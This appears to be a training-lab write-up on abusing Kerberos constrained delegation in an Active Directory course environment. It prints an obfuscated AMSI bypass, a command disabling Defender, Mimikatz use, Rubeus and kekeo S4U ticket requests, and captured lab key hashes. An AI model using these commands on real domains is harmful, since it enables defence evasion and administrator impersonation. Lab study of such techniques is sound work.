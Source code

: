 # 👨‍✈️ Exploit Constrained Delegation and execute privileged operations

We are going to start bu enumerating users with constrained delegation ->

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
. C:\AD\Tools\PowerView.ps1
Get-DomainUser -TrustedToAuth 
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We already have secrets of websvc from dcorp-admisrv machine.</p></figcaption></figure>

We can either use Kekeo or Rubeus to abuse that.

Let's start with rubeus -> First we need to encode "s4u" with Argsplit

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation" %}

Since i'm not very meticulous, i didn't note websvc's secrets so i need to do it again ->

```
PS C:\AD\Tools> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
PS C:\AD\Tools> . .\PowerView.ps1
PS C:\AD\Tools> . .\PowerUp.ps1
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
PS C:\AD\Tools> Enter-PSSession dcorp-adminsrv
[dcorp-adminsrv]: PS C:\Users\student613\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'.
[dcorp-adminsrv]: PS C:\Users\student613\Documents> cd 'C:\Program Files\'
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7</p></figcaption></figure>

Now let's launch the Rubeus with s4u encoded:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

{% hint style="warning" %}
in the course there's an error on the server name that is dcorpmssql and not dcorp-mssql
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>just checking if it's all good</p></figcaption></figure>

And now we can access dcorp-mssql:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we're going to abuse Constrained Delegation using websvc with Kekeo

Let's  use the tgt::ask module from kekeo to request a TGT from websvc. Note that we are using NTLM hash of websvcs here just to show NTLM hash can be used too:

```
cd .\kekeo\x64
.\kekeo.exe 
tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, let's use this TGT and request a TGS. Note that we are requesting a TGS to access cifs/dcorp-mssql as the domain administrator - Administrator ->

```
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can inject the ticket in current session to use it

(will finish kekeo later)

Now we're going to abuse Constrained Delegation using dcorp-adminsrv with Rubeus

We have the AES keys of dcorp-adminsrv$ from dcorp-adminsrv machine
